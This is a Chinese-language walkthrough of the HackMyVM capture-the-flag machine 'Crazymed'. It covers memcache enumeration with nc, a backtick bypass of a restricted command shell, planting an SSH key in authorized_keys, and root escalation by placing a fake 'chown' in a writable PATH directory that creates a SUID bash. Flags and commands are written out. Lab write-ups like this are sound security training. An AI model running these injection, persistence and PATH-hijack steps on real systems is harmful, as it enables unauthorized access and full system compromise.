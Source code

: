 # Crazymed

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=Crazymed

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4444/tcp  open  krb524
11211/tcp open  memcache
```

先看看 80 web 服务有什么，底部显示了个 Designed by BootstrapMade 像是个 CMS 的模板，gobuster 扫描后得到 http://192.168.5.40/Readme.txt 但是没什么用，看样子像是个静态网站，在看其他的端口吧。

nc 连接 4444 端口，发现要输入密码，但是目前不知道密码。在链接 11211 的 memcache 看看能不能拿到缓存信息：

```
echo "stats items" | nc -vn -w 1 192.168.5.40 11211          # 发现 items:1
echo "stats cachedump 1 0" | nc -vn -w 1 192.168.5.40 11211  # 得到了缓存的item
echo "get log" | nc -vn -w 1 192.168.5.40 11211              # 这个item中得到了一个提示 password: cr4zyM3d
```

然后利用得到的密码 cr4zyM3d 在 4444 的端口上输入，然后输入 ? 号能看到可以执行的命令，这时输入 id 发现当前用户是 brad，尝试执行其他的命令进行绕过，并且得到了 user flag：

```
System command: echo `ls`
user.txt
System command: echo `cat user.txt`
f70a9801673220fb56f42cf9d5ddc28b
```

将生成的 id_rsa.pub 公钥写入到目标机器上：

```
ssh-keygen -t rsa -f ./id_rsa  # kali上执行

echo `echo 'ssh-rsa ........1MdEG2btvfgk= kali@kali'>>./.ssh/authorized_keys`  # 在目标机器上执行，将上面生成的id_rsa.pub写入到authorized_keys中
```

在 kali 上使用私钥登陆：

```
ssh -i id_rsa brad@192.168.5.40
```

看看那个 4444 端口对应的脚本是怎么限制的，可以看到必须是以 id who echo clear 开头，并且没有限制反单引号，所以存在绕过：

```shell
items=(id who echo clear)
signs=(";" "&" "&&" "|" "$")
export TERM=xterm

printf 'Type "?" for help.\n\n'

while :
do
printf 'System command: '
read -r cmd

for y in "${signs[@]}"; do
[[ $cmd =~ "$y" ]] && echo -e "${BOLDRED}Attack detected.${RESET}" && continue 2
done

for x in "${items[@]}"; do
[[ $cmd =~ "$x" ]] && bash -c "$cmd"
done
```

经过枚举，发现 /usr/local/bin 这个目录任意用户可以写入，并且这个目录是在系统环境变量 PATH 最开始位置。上传 pspy 发现后台有任务执行，/bin/bash /opt/check_VM

```
brad@crazymed:~$ cat /opt/check_VM
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```

上面发现 chown 这个命令没有写完全路径，可以利用发现的 /usr/local/bin 目录可写，实现命令替换：

```
brad@crazymed:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
brad@crazymed:~$ ls -al /usr/local/bin
total 8
drwxr-xrwx  2 root root 4096 Oct 31  2022 .
drwxr-xr-x 10 root root 4096 Oct 26  2022 ..
brad@crazymed:~$ echo 'cp /bin/bash /tmp/bash; chmod +xs /tmp/bash' > /usr/local/bin/chown; chmod +x /usr/local/bin/chown
```

等带 1 分钟，这时会出现 suid 程序/tmp/bash 直接提权到 root：

```
brad@crazymed:~$ /tmp/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
b9b38d9533ca00072eff46338bf21b43
```
